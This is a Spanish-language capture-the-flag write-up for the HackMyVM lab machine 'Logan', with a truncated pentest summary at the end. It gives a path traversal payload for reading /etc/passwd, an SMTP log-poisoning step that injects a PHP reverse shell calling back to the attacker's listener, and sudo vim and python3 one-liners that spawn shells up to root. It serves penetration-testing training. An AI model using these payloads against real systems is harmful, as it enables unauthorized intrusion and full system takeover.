# 🧪 WriteUp - Logan - (HackMyVM 🖥)


---
## 🎯 Planificación y Alcance

| Componente          | Detalle                                                                                   |
| ------------------- | ----------------------------------------------------------------------------------------- |
| MV Atacante         | Kali Linux (VirtualBox)                                                                   |
| MV Objetivo         | Logan (HackMyVM)                                                                          |
| Modo de Red         | Adaptador Puente                                                                          |
| Herramientas Usadas | `arp-scan`, `ping`, `nmap`, `gobuster`, `wfuzz`, `Caido`, `Penelope`, `telnet`, `sudo -l` |
`NOTA: Tanto la IP de la MV Atacante como la de la MV Objetivo van variando debido a la diferente ubicación física a lo largo de la elaboración de este documento. El procedimiento no varía, el resultado es el mismo`.

---
## 🔍 Reconocimiento

Una vez arrancada la MV Objetivo `Logan`, vamos a proceder con el reconocimiento de su `IP` mediante el comando `sudo arp-scan -I eth1 --localnet`, sabiendo que la `MAC` del fabricante VirtualBox comienza por `08:00`.



Vamoss a realizar una comprobación `ICMP` para verificar la conectividad, latencia y accesibilidad del host:
`ping -c 1 192.168.0.21`



Podemos ver que tenemos conectividad con la máquina víctima y que se trata de un sistema Unix, `ttl=64`.

---
## 📡 Escaneo y Análisis de Vulnerabilidades

Efectuamos un escaneo con `Nmap` para realizar un primer reconocimiento de la máquina víctima:
`sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn -vvv 192.168.0.21`



Vemos que tiene el puerto `25 SMTP` abierto además del puerto `80 HTTP`.

📖 **Parámetros:**
```bash
-p-: Escaneo completo de todos los puertos, del 1 al 65535.
-sS: Stealth Scan, realiza un escaneo TCP SYN.
-sC: Uso de los scripts predeterminados del NSE (Nmap Scripting Engine).
-sV: Activa la detección de versiones.
--min-rate 5000: Mantiene una velocidad de envío de paquetes de al menos 5000 paquetes por segundo. Hace mucho ruido.
-n: Desactiva la resolución DNS inversa sobre las direcciones IP activas encontradas.
-Pn: Omite la etapa de descubrimiento de hosts (ping) y asume que el objetivo está encendido.
-vvv: Triple verbose. Información en tiempo real del escaneo.
```

Entramos a la página web `192.168.0.21` y vemos que nos salta un error "Server Not Found".
Se puede observar que la `URL` aparece con el dominio `http://logan.hmv/` en vez de la dirección `IP`.



Esto se debe a que existe un dominio configurado dentro del servidor, `logan.hmv`, el cual debemos de reconocer en nuestra máquina atacante añadiéndolo a `/etc/hosts`:
`sudo nano /etc/hosts`



Ahora sí, volvemos a recargar la página web y vemos que ya nos carga bien:



Observando la página principal, vemos que a primera vista no se encuentra nada interesante a analizar, por lo que vamos a hacer un poco de "Fuzzing Web" a ver si existen directorios:
`gobuster dir -u http://logan.hmv/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt`


No encontramos nada relevante, por lo que vamos a probar a encontrar posibles subdominios:
`wfuzz -c --hc=404 --hl=1 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.logan.hmv" -u 192.168.0.21`


Encontramos el subdominio `admin`.

📖 **Parámetros:**
```bash
-c (--color): Habilita la salida con colores en la terminal, 200 (OK) en verde, 400 (Bad Request) y 404 (Not Found) en rojo.
--hc=404: Hive content, para que no muestre aquellas respuestas con un código de estado Not Found.
--hl=1: Hive line, filtrando por 1 quitas aquellas respuestas que tengan 1 línea, de tal forma que si sale alguna línea diferente es que algo a encontrado.
-w: Wordlist, usamos la wordlist de Seclists.
-H (Header): Se utiliza para especificar cabeceras HTTP personalizadas en las peticiones enviadas al servidor. Fuzzing de Cabeceras: Puedes usar la palabra clave "FUZZ" dentro del valor de una cabecera para probar diferentes valores desde un diccionario.
```

De nuevo, hay que añadir al archivo `/etc/hosts` el subdominio encontrado `admin.logan.hmv` para que la página web lo reconozca:
`sudo nano /etc/hosts`



Accedemos a `http://admin.logan.hmv`



Podemos ver que hay un directorio de `Upload files`, por lo que probaremos a realizar un `Remote File Inclusion (RFI)` para conseguir una `Reverse Shell`.
Lo primero de todo vamos a probar a subir un archivo `test.php` vacío de prueba a ver lo que pasa: `touch test.php`



Al dar a `upload` vemos que parece que se sube con éxito, por lo que vamos a realizar otro reconocimiento de directorios a ver dónde puede haberse subido:
`gobuster dir -u http://admin.logan.hmv/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt`



Parece ser que no encuentra ninguna ruta de subida de archivos, por lo que esta opción queda descartada.

El otro directorio interesante es el de `Payments`. Vemos que metiendo caracteres (Payment code 01, 02, 03) y dándole a `Show` nos muestra diferentes resultados.



---
## ⚔ Explotación

Esto nos hace pensar que por detrás debe haber algún fichero donde se encuentre almacenada esta información que muestra, por lo que vamos a probar a realizar un `Path Traversal` para llegar a ver el archivo `/etc/paswd`.

Para ello, vamos a interceptar el tráfico con `Caido` y vamos a realizar diferentes pruebas:
`file=../../../../../../../etc/passwd`



Vemos que el `Standard Path Traversal` no funciona (`File does not exist`), por lo que podemos probar a ver si está `ofuscada` con la variante:
`file=....//....//....//....//....//....//....//etc/passwd`



Efectivamente, es una variante ofuscada, a menudo usada para evadir filtros de seguridad, que utiliza múltiples puntos y barras dobles.

Con esto, vemos el archivo `/etc/passwd` donde podemos ver dos usuarios aparte del usuario `root`: `www-data` y `logan`:

`www-data: /usr/sbin/nologin`: `Shell` especial que deshabilita el inicio de sesión de un usuario.

`logan: /bin/bash`: Indica que el usuario utiliza `Bash` como su intérprete de comandos predeterminado al iniciar sesión, lo que permite al usuario gestionar archivos y ejecutar programas.



Sabiendo que hay un directorio de `Logs`, y recordando que el puerto `25 SMTP` estaba abierto, vamos a intentar realizar un `Local File Inclusion (LFI)`, `Log Poisoning`.

Primero, ubicamos el directorio de `logs` de mail, por lo general en `/var/log/mail.log





Vamos a utilizar el `payload` de `php-reverse-shell` de `pentestmonkey` de GitHub para inyectar el código malicioso necesario, cambiando la `IP` por la nuestra y el puerto al que queramos escuchar con el `Shell Handler`:
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Vamos a realizar una conexión `ESMTP` vía `telnet` por el puerto `25`, con el usuario `logan` para enviar un mail a `www-data`. Paralelamente, abrimos un `Shell Handler`, en este caso `Penelope`, para mantenernos a la escucha a través del puerto `4444`, configurado tanto en el `Shell Handler` como en el `payload`.

```bash
telnet 192.168.1.8 25
EHLO # Inicio de conexión ESMTP, el servidor lista las extensiones soportadas
MAIL FROM:<logan@logan.hmv>
RCPT TO:<www-data@logan.hmv>
DATA # Comienzo del cuerpo del mensaje
# Pegamos el script php-reverse-shell.php
. # Indicar al servidor que se ha terminado de enviar un bloque de datos o el mensaje completo.
```



Al enviar el `payload`, vemos en `Caido` que la página web se queda cargando.



Al mismo tiempo que `Penelope` consigue iniciar sesión como `www-data`.



---
## 💥 Post-Explotación

Ejecutado con éxito el `Reverse Shell`, vamos a buscar la `flag`. La encontramos en el archivo `home/logan/user.txt`.



Ahora toca escalar privilegios para conseguir entrar como `root`.

Probamos un `sudo -l` y vemos que se puede escalar privilegios, en este caso al usuario `logan`, utilizando `/usr/bin/vim`, es decir, se puede ejecutar `Vim` como `logan` sin contraseña (`logan NOPASSWD`), para obtener una `Shell` interactiva como `logan`.

Podemos encontrar el comando a ejecutar en https://gtfobins.org/:
`sudo -u logan vim -c ':!/bin/bash'`

Esto nos proporciona la entrada como el usuario `logan`.



Probamos de nuevo un `sudo -l` para poder escalar de `logan` a `root`. Podemos ver que se puede escalar privilegios utilizando `/usr/bin/python3`, es decir, se puede ejecutar `Python3` como `root` sin contraseña (`NOPASSWD`) para obtener una `Shell` interactiva como `root`.



El comando a utilizar sería: 
`sudo python3 -c import os; os.system("/bin/bash")`



Finalmente, obtenemos acceso como `root`.

Buscamos la última `flag`, encontrada en `root/root.txt`.



---
## 🧾 Informe Final

Se realizó una prueba de penetración de tipo `caja negra` sobre el activo `192.168.0.21` y los dominios asociados `logan.hmv` y `admin.logan.hmv`. El objetivo fue identificar vulnerabilidades que pudieran comprometer la confidencialidad, integridad o disponibilidad de los sistemas.

Durante el ejercicio se identificaron **cuatro vulnerabilidades** de severidad crítica y alta, que permitieron:

- Lectura de archivos arbitrarios del sistema (`/etc/passwd`).
- Ejecución remota de código mediante `Log Poisoning` a través del servicio `SMTP`.
- Escalada de privilegios hasta obtener acceso como `root` gracias a configuraciones inseguras de `sudo`.

|Vulnerabilidad|Probabilidad|Impacto|Nivel de Riesgo|
|---|---|---|---|
